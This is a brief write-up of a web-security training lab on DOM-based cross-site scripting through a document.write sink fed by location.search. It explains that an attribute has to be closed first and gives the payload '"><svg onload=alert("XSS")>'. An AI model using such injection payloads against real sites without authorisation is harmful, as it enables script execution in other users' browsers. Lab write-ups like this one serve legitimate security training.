





# Lab: DOM XSS in document.write sink using source location.search

URL: https://0a81004b04f3d4aa80737b9200ae00c7.web-security-academy.net/



## Testing the fields:



## Preparation:



We have to close the tag before we attack using XSS.

## Exploitation:






Payload:

```
"><svg onload=alert("XSS")>
```